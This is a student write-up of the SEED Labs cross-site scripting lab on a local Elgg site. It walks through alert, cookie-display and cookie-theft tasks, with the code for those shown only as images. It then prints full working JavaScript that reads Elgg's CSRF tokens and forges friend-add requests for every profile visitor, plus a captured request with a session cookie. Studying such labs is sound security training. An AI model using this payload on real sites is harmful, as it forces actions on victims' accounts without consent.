










[Lab Instructions](https://seedsecuritylabs.org/Labs_16.04/PDF/Web_XSS_Elgg.pdf)

## Task 1: Posting a Malicious Message to Display an Alert Window

The objective of this task is to embed a JavaScript program in an `Elgg` profile, such that when another user views your profile, the JavaScript program will be executed and an alert window will be displayed.

Log in to Sammy's account and Edit the profile as following using HTML. The following code is an JavaScript program that displays an alert window 'XSS'.



Log out of Samy's account and Log in to Alice's account. Try viewing Samy's Profile using Alice's account.

When Alice clicks on Samy's Profile, an alert window 'XSS' shows.



This is because when a user tries to view Samy's profile, the JavaScript code in the profile is executed.

## Task 2: Posting a Malicious Message to Display Cookies

The objective of this task is to embed a JavaScript program in an `Elgg` profile, such that when another user views your profile, the user’s cookies will be displayed in the alert window.

Log in to Sammy's account and Edit the profile as following using HTML. The following code is an JavaScript program that displays the user's cookies in the alert window.



Log out of Samy's account and Log in to Alice's account. Try viewing Samy's Profile using Alice's account.

When Alice clicks on Samy's Profile, an alert window with Alice's Cookies shows.


This is because when a user tries to view Samy's profile, the JavaScript code in the profile is executed.

## Task 3: Stealing Cookies from the Victim's Machine

In the previous task, the JavaScript code in Samy's profile printed out the user’s cookies in an alert window, so the attacker could not see it. The purpose of this task is to modify the JavaScript code to send the cookies to the attacker.

Log in to Sammy's account and Edit the profile as following using HTML.



The code is an JavaScript program that has an  tag with its src attribute set to localhost. When the code is executed, the browser will try to load the image from the link in the src field, and a HTTP GET request will be sent. The data of the user's cookies will be sent, and the attacker will be able to get the information by using a TCP Server listening to port 5555.

Start a listening TCP connection using the command below.



Log out of Samy's account and Log in to Alice's account. Try viewing Samy's Profile using Alice's account.

When Alice clicks on Samy's Profile, Alice's Cookies are shown in the Terminal.



This is because when a user tries to view Samy's profile, the JavaScript code in the profile is executed.

## Task 4: Becoming the Victim's Friend.

The purpose of this attack is to write an Cross-site Scripting Attack that adds Samy as a friend to any other user that visits Samy's profile.

Log in to Charlie's account and Samy as a friend. During the process, Use HTTP Header Live to capture the header sent while adding Samy as a friend.



This is the captured header.



```
http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts=1637220487&__elgg_token=4PpQ6ZDUkh5PZhhZYvs0nw&__elgg_ts=1637220487&__elgg_token=4PpQ6ZDUkh5PZhhZYvs0nw
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/samy
X-Requested-With: XMLHttpRequest
Cookie: Elgg=55ph2nhijjv90btc83laaumpq3
Connection: keep-alive

GET: HTTP/1.1 200 OK
Date: Thu, 18 Nov 2021 07:28:16 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 364
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/json;charset=utf-8
```

Log in to Sammy's account and Edit the profile as following using HTML.

```
<script type="text/javascript">
  window.onload = function () {
    var Ajax = null;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl ="http://www.xsslabelgg.com/action/friends/add?friend=47" + ts + token;
    //Create and send Ajax request to add friend
    Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    Ajax.send();
  };
</script>
```



The code is an JavaScript program that forges an HTTP requests that adds Samy as a friend to the victim.

In the code, the variable `ts` is a timestamp. The variable `token` is a security token. These variables are a countermeasure against Cross Site Request Forgery attacks. All requests will carry the correct value of these variables. Because Cross Site Requests do not have the correct value, forged requests will be easily identified by the server.

They change every time a page is loaded, so they need to be accessed by Cross Site Scripting attack to get the correct values. The code finds the correct value of `ts` and `token`, uses it to construct the correct HTTP request to add Samy as a friend, and sends the request when executed.

Log out of Samy's account and Log in to Alice's account. Try viewing Samy's Profile using Alice's account.

When we refresh the page, it shows that Samy is a friend of Alice, even though Alice did not press the "add friend" button.



This is because when a user tries to view Samy's profile, the JavaScript code in the profile is executed.
